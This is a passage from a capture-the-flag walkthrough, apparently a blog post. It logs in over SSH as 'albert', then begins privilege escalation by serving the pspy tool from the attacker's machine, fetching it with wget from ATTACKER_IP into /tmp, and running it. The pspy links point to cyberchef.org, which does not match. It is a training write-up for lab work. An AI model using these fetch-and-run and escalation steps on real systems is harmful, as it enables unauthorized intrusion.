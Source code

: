 ```bash
ssh albert@VICTIM_IP
```

We're in!!! Now we can read the user flag

// user-flag

## Privilege Escalation
We're on the server but our privileges are still limited. We can
modify the website but don't have complete access to the entire
system. `root` here we come

### User Privileges
Whenever we gain access to a new user/account, it's a good idea to
enumerate available privileges. Sometimes they have
`root` accesss right off the bat through the `sudo` command. We
aren't so lucky, but we also aren't so desperate.
Using the `groups` command we see that our user is part of 
the `management` group

// albert-groups

It's not clear how we can leverage this now, but let's keep digging.

### Hidden Processes
> Have you heard of 
> [pspy](https://cyberchef.org/){:target="_blank"}{:rel="noopener noreferrer"}?
{: .prompt-tip }

Even though we are a normal user, we can see what the higher privileged
users are running. If we can hijack one of these processes,
we can grow our power!

In comes [pspy](https://cyberchef.org/){:target="_blank"}{:rel="noopener noreferrer"}!
A convenient program whichs show us what processes are being
run and the privileges they have. We just need to upload and run it.

There are many ways to upload files but I prefer hosting
a web server. On the attacker machine, download the
[pspy](https://cyberchef.org/){:target="_blank"}{:rel="noopener noreferrer"}
files and move to that directory. Start a server with the command

```bash
python3 -m http.server 80
```

We can retrieve the files on the victim machine

```bash
cd /tmp
wget http://ATTACKER_IP/pspy64
```

Make the file executable and run it

```bash
chmod +x pspy64
./pspy64
```
